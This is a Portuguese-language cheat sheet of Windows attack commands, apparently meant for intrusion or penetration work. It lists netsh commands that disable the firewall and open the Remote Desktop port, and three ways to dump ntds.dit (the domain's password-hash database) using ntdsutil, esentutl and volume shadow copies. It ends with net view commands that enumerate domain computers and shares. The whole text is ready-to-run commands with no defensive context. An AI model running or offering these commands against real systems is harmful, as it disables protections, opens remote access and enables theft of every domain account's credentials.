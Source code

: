 ## exibe configurações do firewall
```
netsh firewall show config
```

## desliga o firewall 
```
netsh Advfirewall set allprofiles state off
```

## desliga o firewall (2)
```
netsh firewall set opmode disable
```

## liga o firewall
```
netsh Advfirewall set allprofiles state on
```

## abrir a porta  do RDP no firewall
```
netsh firewall add portopening TCP 3389 "Remote Desktop"
```

% windows, ntds.dit
## dump ntds.dit (Windows >= 2008 server) - metodo 1
```
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```
## dump ntds.dit (Windows >= 2008 server) - metodo 2
```
esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
```
## dump ntds.dit (Windows <= 2003 server)
```
net start vss && vssadmin create shadow /for=c: && vssadmin list shadows && copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit C:\temp
```

% windows, smb, share
## lista de computadores
```
net view
```

## lista os shares de computadores no dominio
```
net view /all /domain <domain_name>
```
